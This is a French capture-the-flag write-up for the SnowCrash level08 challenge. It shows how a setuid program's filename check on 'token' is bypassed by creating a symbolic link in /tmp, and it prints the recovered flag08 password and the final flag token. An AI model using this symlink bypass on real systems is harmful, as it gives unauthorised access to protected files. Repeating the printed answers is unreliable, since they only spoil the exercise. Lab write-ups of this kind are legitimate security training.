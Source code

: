 # Level08 - Interprétation de programme
Pour résoudre le level08, on a un fichier level08 et un fichier token. Quand on exécute level08, on nous demande de lui donner un fichier à lire.

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

On lui donne token, mais le programme nous dit que nous n'avons pas le droit de le lire.

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

On utilise `strings` sur le programme, et on peut voir une ligne mentionnant `token`, et plus bas un appel à la fonction `strstr`:

```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
strstr@@GLIBC_2.0
```

Si on essaie d'exécuter le programme avec n'importe quel autre fichier, ce dernier est lu sans soucis. On en conclus donc qu'il y a une protection sur le nom du fichier que le programme lis, et que si ce dernier contient "token", il ne sera pas lu. Comme nous n'avons pas le droit de renommer token ou de le copier, on crée un lien symbolique qui sera nommé autrement.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/toto
level08@SnowCrash:~$ ./level08 /tmp/toto
quif5eloekouj29ke0vouxean
```

On se connecte sur le compte flag08 et on obtient notre token:

```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

On a notre token: `25749xKZ8L7DkSCwJkT9dyv6f`

